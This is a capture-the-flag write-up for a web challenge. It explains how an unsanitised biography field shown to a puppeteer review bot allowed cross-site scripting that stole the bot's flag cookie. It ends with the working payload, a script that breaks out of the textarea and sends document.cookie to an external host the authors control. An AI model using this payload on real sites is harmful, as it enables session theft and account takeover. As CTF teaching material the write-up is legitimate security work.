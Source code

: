 
**Category**: Web

**Points**: 350pts

**TL;DR:** XSS to exfiltrate the cookie with the flag, which was set by the bot and puppeteer. 🚩🍪💻➡️📨

**Sources**:  [sources_web_solid_recruit.zip](./sources_web_solid_recruit.zip)

**Solution:**
Checking the sources provided with the challenge, we saw that sending an enrollment form triggered a review process and launched a puppeteer's browser with the flag cookie.

<p align="center">
  <img src="../assets/review_process_and_flag_cookie.png" alt="review_process_and_flag_cookie" />
</p>
<p align="center">Review process were the flag cookie is set.</p>

In this case we imagined puppeteer as an "end user" invoking the ***/review*** endpoint from its own browser. And if this /review call was susceptible to XSS attacks, extracting the flag cookie (which only existed in that browser) was possible. 

Analyzing the rest of the sources we found that the ***biography text area in the dashboard.html*** was not properly sanitized and was also used in the /review endpoint mentioned above. Just what we needed to launch our XSS attack.

<p align="center">
  <img src="../assets/vulnerable_biography_text_area.png" alt="vulnerable_biography_text_area" />
</p>
<p align="center">Vulnerable biography text area.</p>

After multiple attempts to exfiltrate the cookie, we ended up creating a simple Flask web application with a single endpoint that could be called using a parameter.

Finally, by writing the following script in the biography text area and sending the enrollment form,  we triggered the review process and puppeteer called our webapp with its cookies as a parameter, which we received and logged on our server.

**XSS:**

		</textarea> 
		<script>
			var i=new Image;
			i.src="https://xyz.pythonanywhere.com/?"+document.cookie;
		</script>
		<textarea></textarea>
